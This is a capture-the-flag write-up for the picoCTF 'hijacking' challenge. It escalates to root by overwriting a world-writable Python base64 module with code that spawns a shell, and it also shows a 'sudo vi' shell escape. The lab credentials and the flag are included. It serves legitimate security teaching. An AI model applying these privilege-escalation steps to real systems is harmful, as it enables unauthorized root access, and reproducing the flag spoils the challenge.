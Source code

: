 # Writeup: hijacking

## Overview

This challenge involves exploiting a Python file with root access and modifying system files to obtain the flag.

## Info

1. Challenge Description

```text
Getting root access can allow you to read the flag. 
Luckily there is a python file that you might like to play with. 
Through Social engineering, we've got the credentials to use on the server. 
SSH is running on the server.

saturn.picoctf.net 64912
Username: picoctf
Password: w26873vTLt
```

2. Hint

  - Check for Hidden files
  - No place like Home:)

## Exploitation Steps

1. Use the provided credentials to connect to the server via SSH.

```terminal
$ ssh -p 62007 picoctf@saturn.picoctf.net
```

2. Check for hidden files following the hint.

```terminal
picoctf@challenge:~$ ls -la
total 16
drwxr-xr-x 1 picoctf picoctf   20 Sep  1 15:42 .
drwxr-xr-x 1 root    root      21 Aug  4  2023 ..
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
drwx------ 2 picoctf picoctf   34 Sep  1 15:42 .cache
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
-rw-r--r-- 1 root    root     375 Mar 16  2023 .server.py
```

3. Examine the code of `.server.py`

```terminal
picoctf@challenge:~$ cat .server.py
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info) 
```

  - Seems like nothing related to the challenge.

4. Check current privileges on system.

```terminal
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

  - We can use  `vi`.
  - We have root access on running `/usr/bin/python3 /home/picoctf/.server.py`.

5. Since the challenge description ask us to play with the python files so we can look at the access on each modules imported in `.server.py`.

  - Check the location of the Python modules.
```terminal
picoctf@challenge:~$ python3
>>> import sys
>>> print(sys.path)
['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']
```

  - Look at the permission on each modules imported.

```terminal
$ ls -la /usr/lib/python3.8
-rwxrwxrwx 1 root root  20413 Sep  1 16:16 base64.py
-rw-r--r-- 1 root root  38995 May 26  2023 os.py
-rw-r--r-- 1 root root  35243 May 26  2023 socket.py
```
  - We have full read-write-execute access on base64.py.

6. We can modify `base64.py` module to provide shell.

```terminal
picoctf@challenge:~$ vim /usr/lib/python3.8/base64.py
```

```python
import os

os.system('/bin/sh')
```

7. Run the code with root privileges to gain root access and find the flag..

```terminal
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
# whoami
root
# cd ../..      
# ls
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
# cd root
# ls -la
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Sep  1 16:34 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   43 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat .flag.txt
picoCTF{pYth0nn_libraryH!j@CK!n9_13cfd3cc}
```

## Alternative Ways

We can also run this line of code directly to gain root access.

```terminal
$ sudo vi -c ':!/bin/sh' /dev/null
```

## Conclusion

This challenge requires an understanding of Python libraries, file permissions, and how to hijack system modules to gain elevated access. By modifying a writable Python module, we were able to execute commands with root privileges and retrieve the flag.
